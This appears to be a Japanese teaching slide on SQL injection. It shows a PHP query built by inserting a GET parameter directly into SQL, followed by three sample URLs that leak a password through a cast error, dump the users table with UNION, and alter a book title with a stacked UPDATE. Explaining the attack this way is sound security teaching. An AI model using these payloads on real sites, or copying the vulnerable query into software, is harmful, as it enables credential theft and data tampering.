

# 攻撃
■ GETパラメータに検索パラメータが含まれるパターン
プログラム中SQL文字列： SELECT id, title, author, publisher, date,price FROM books WHERE author = '$author' ORDER BY id
http://exmple.jp/44/44-001.php?author=Shakespeare
→ 問題なし
http://exmple.jp/44/44-001.php?
author=‘and cast((select id||’:‘||pwd from users offset 0 limit 1) as integer)>1--
→ users テーブルの先頭一行から情報（例："yamada:pass112233"）を取得し cast しようとして
　　エラーメッセージが表示される。（yamadaさんのpasswordがばれる）
http://exmple.jp/44/44-001.php?
author=‘union select id,pwd,name,addr,null,null,null from users--
→ UNION 右辺の users テーブル select 結果がすべて表示される
http://exmple.jp/44/44-001.php?
author=‘;UPDATE books SET title%3D’<i>cracked!</i>‘ WHERE id%3d'1001'--
→  id = 1001 のタイトルが「<i>cracked!</i>」に改ざんされる